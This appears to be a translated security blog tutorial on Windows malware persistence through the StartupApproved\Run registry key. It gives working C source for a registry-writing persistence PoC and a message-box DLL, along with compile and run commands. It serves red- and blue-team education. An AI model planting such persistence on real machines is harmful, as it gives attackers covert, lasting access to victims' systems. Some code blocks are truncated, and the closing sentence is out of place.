\newpage
\subsection{恶意软件开发：持久化（第 24 部分）——StartupApproved（简单的 C 示例）}

﷽

{width="80%"}

这篇文章基于我自己对另一个比较有趣的恶意软件持久化技巧的研究：通过 StartupApproved 注册表项实现持久化。

### StartupApproved

在关于持久化的系列文章的第一篇里，我写过一个最流行、也最经典的技巧：通过注册表 Run 项实现持久化。

在 `userinit.exe` 完成其操作之后，标准「启动」流程（也就是主要由 Windows 资源管理器控制的那一套，例如 `Run` 和 `RunOnce` 项、启动文件夹等）会用到的一个不太常见的注册表项，位于注册表中的以下位置：

```bash
HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\StartupApproved\Run
```

`HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\StartupApproved\Run`

{width="80%"}

好消息是，我们可以利用这个注册表路径来实现持久化。

### 实战示例

首先，用下面的命令查看注册表项：

```powershell
reg query 
"HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\StartupApproved"
 /s
```

{width="80%"}

下一步，和往常一样，创建我们的「恶意」应用程序（`hack.c`）：

```cpp
/*
hack.c
simple DLL messagebox
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html
*/

#include <windows.h>

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
  MessageBox(
  NULL,
  "Meow-meow!",
  "=^..^=",
  MB_OK
  );
  break;
  case DLL_PROCESS_DETACH:
  break;
  case DLL_THREAD_ATTACH:
  break;
  case DLL_THREAD_DETACH:
  break;
  }
  return TRUE;

```

和往常一样，就是一个 meow-meow 消息框。

然后我们只需修改 `HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\StartupApproved` 注册表项，像这样（`pers.c`）：

```cpp
/*
pers.c
windows persistence
via StartupApproved
author: @cocomelonc
https://cocomelonc.github.io/malware/2024/03/12/malware-pers-24.html
*/
#include <windows.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  BYTE data[] = {0x02, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00};

  const char* path = 
  "Software\\Microsoft\\Windows\\CurrentVersion\\Explorer\\
  StartupApproved\\Run";
  const char* evil = "Z:\\2024-03-12-malware-pers-24\\hack.dll";

  LONG res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR) path, 0, KEY_WRITE, 
  &hkey);
  printf (res != ERROR_SUCCESS ? "failed open registry key :(\n" : 
  "successfully open registry key :)\n");

  res = RegSetValueEx(hkey, (LPCSTR)evil, 0, REG_BINARY, data, sizeof(data));
  printf(res != ERROR_SUCCESS ? "failed to set registry value :(\n" : 
  "successfully set registry value :)\n");

  // close the registry key
  RegCloseKey(hkey);

  return 0;

```

如你所见，我们 PoC 的逻辑非常简单——我们把注册表项的值设置为 `0x02 0x00...` 这样的二进制值。

### 演示

我们来看看实际效果。首先，编译我们的「恶意软件」DLL：

```bash
x86_64-w64-mingw32-g++ -shared -o hack.dll hack.c -fpermissive
```

{width="80%"}

然后，编译我们的 PoC：

```bash
x86_64-w64-mingw32-g++ -O2 pers.c -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}

最后，在受害者的机器上运行它。在我的例子中，针对 Windows 10 x64 v1903 虚拟机，效果如下：

```powershell
.\pers.exe
```

{width="80%"}

如你所见，我又检查了一次注册表：

```powershell
reg query 
"HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\StartupApproved" 
/s
```

{width="80%"}

然后，注销并重新登录：

{width="80%"}

{width="80%"}

但出乎意料的是，在我这里它没有生效……

然后，我只是更新了条目的名称：

{width="80%"}

注销并重新登录，稍等片刻……它就完美工作了……

{width="80%"}

{width="80%"}

所以我在脚本里改了一行：

```cpp
/*
pers.c
windows persistence
via StartupApproved
author: @cocomelonc
https://cocomelonc.github.io/malware/2024/03/12/malware-pers-24.html
*/
#include <windows.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  BYTE data[] = {0x02, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00};

  const char* path = 
  "Software\\Microsoft\\Windows\\CurrentVersion\\Explorer\\
  StartupApproved\\Run";
  const char* evil = "C:\\temp\\hack.dll";

  LONG res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR) path, 0, KEY_WRITE, 
  &hkey);
  printf (res != ERROR_SUCCESS ? "failed open registry key :(\n" : 
  "successfully open registry key :)\n");

  res = RegSetValueEx(hkey, (LPCSTR)evil, 0, REG_BINARY, data, sizeof(data));
  printf(res != ERROR_SUCCESS ? "failed to set registry value :(\n" : 
  "successfully set registry value :)\n");

  // close the registry key
  RegCloseKey(hkey);

  return 0;

```

但这里有一个注意事项。有时我测试这个特性时，它启动起来的样子像 Skype：

{width="80%"}

{width="80%"}

如你所见，一切都完全按预期工作！=..= :)

在野外的 APT 组织（如 APT28、APT29、Kimsuky、APT33）中，都使用了这种技术。说实话，由于它在欺骗受害者方面极其方便，这种方法被广泛使用、流传甚广。

我希望这篇文章能让蓝队成员了解这个有趣的技巧，并为红队成员的武器库增添一件武器。

[ATT&CK MITRE: T1547.001](https://attack.mitre.org/techniques/T1547/001/)  
[Malware persistence: part 1](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html)  
[APT28](https://attack.mitre.org/groups/G0007/)  
[APT29](https://attack.mitre.org/groups/G0016/)  
[Kimsuky](https://attack.mitre.org/groups/G0094/)  
[APT33](https://attack.mitre.org/groups/G0064/)  
[source code in github](https://github.com/cocomelonc/meow/tree/master/2024-03-12-malware-pers-24)

事实证明，当通过 Windows 任务管理器的「启动」选项卡启用或禁用条目时，这个项就会被写入：
